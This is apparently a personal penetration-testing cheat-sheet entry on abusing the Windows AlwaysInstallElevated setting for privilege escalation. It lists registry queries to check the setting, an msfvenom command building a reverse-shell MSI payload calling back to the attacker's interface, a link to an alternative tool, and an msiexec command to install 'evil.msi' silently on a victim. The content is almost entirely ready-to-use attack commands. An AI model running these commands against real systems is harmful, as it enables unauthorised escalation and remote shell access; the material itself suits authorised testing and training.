 ## AlwaysInstallElevated

- check from either winpeas or manual regkey enum
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Msf's msi payload may not work
```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f msi -o reverse.msi 
```
Use this instead
https://github.com/KINGSABRI/MSI-AlwaysInstallElevated



Execution on victim
```
msiexec.exe /quiet /qn /i evil.msi
```

![alt text](image.png)

![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-4.png)